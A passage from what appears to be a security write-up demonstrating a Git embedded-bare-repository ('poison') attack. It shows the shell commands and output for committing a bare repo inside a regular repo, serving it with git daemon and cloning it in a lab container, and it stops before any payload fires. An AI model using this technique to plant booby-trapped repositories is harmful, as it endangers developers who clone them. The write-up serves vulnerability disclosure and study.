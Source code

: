 ```plain
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 .gitkeep
```

Add and commit the embedded bare repo to the regular repo

```plain
root@f3eed6860a67:~/malicious/poison# cd ..

root@f3eed6860a67:~/malicious# git add poison/

root@f3eed6860a67:~/malicious# git commit -m 'add poison'
[main (root-commit) f8a791f] add poison
 11 files changed, 14 insertions(+)
 create mode 100644 poison/COMMIT_EDITMSG
 create mode 100644 poison/HEAD
 create mode 100644 poison/config
 create mode 100644 poison/index
 create mode 100644 poison/logs/HEAD
 create mode 100644 poison/logs/refs/heads/main
 create mode 100644 poison/objects/4d/195f35c689356e0a86bfd7e31e75d02d721170
 create mode 100644 poison/objects/d5/64d0bc3dd917926892c55e3706cc116d5b165e
 create mode 100644 poison/objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391
 create mode 100644 poison/refs/heads/main
 create mode 100644 poison/worktree/.gitkeep
```

Start a Git daemon to allow the repo to be cloned:

```plain
root@421f854b575a:~/malicious# git daemon --verbose --export-all --base-path=.git --reuseaddr --strict-paths .git/
[153] Ready to rumble
```

Start a new shell within the container and clone the Git repo:

```plain
% sudo -g docker docker exec -ti f3eed6860a67 bash

root@f3eed6860a67:/#

root@421f854b575a:/# cd $(mktemp -d)

root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n# git clone git://127.0.0.1/
Cloning into '127.0.0.1'...
remote: Enumerating objects: 23, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 23 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (23/23), done.
```

`cd` into the cloned repo and do `git status` from the root. Nothing interesting happens.
